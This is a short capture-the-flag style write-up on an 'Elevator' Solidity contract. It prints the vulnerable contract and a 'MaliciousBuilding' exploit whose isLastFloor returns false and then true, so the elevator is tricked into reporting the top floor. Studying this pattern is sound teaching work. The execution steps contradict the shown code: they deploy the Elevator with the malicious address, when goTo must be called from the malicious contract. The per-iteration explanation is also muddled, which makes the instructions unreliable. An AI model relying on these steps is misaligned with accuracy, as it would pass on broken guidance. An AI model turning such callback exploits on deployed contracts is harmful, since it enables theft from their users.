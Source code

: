 # Understanding Trust Issues in Smart Contracts: A Case of Elevator Vulnerability

In the realm of blockchain development, there's a fundamental principle: "Never trust functions that can change the state of a variable or return different outputs during different executions." This principle is essential for ensuring the security and integrity of smart contracts.

## The Vulnerable Contract

Consider the following Solidity contract:

    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    interface Building {
      function isLastFloor(uint) external returns (bool);
    }
    
    contract Elevator {
      bool public top;
      uint public floor;
    
      function goTo(uint _floor) public {
        Building building = Building(msg.sender);
    
        if (! building.isLastFloor(_floor)) {
          floor = _floor;
          top = building.isLastFloor(floor);
        }
      }
    }

This contract represents an elevator system where the goTo function allows users to move to different floors. The contract interacts with an external contract (Building) through the isLastFloor function to determine if the current floor is the top floor.

## Exploiting the Vulnerability
The vulnerability lies in the reliance on an external contract to determine whether the current floor is the top floor. An attacker can exploit this vulnerability by implementing a malicious contract that manipulates the behavior of the isLastFloor function.

Here's an example of an exploit contract:

    ```solidity
    contract MaliciousBuilding is Building {
    bool private isFirstIteration = true;

    function isLastFloor(uint) external override returns (bool) {
        if (isFirstIteration) {
            isFirstIteration = false;
            return false;
        } else {
            return true;
        }
      }
    }
    
## Exploit Execution
To execute the exploit and pass this level, follow these steps:

## Deploy the MaliciousBuilding contract.
Deploy the Elevator contract, passing the address of the MaliciousBuilding contract as the Building interface.
Call the goTo function of the Elevator contract with any floor number.
During the first iteration, the isLastFloor function will return false, causing the top variable to remain false. However, during the second iteration, the function will return true, tricking the Elevator contract into believing it has reached the top floor, thus exploiting the vulnerability.

## Conclusion
This case highlights the importance of robust contract design and the need for cautiousness when interacting with external contracts. By adhering to best practices and thoroughly auditing smart contracts, developers can mitigate the risk of vulnerabilities and safeguard decentralized systems against potential exploits.
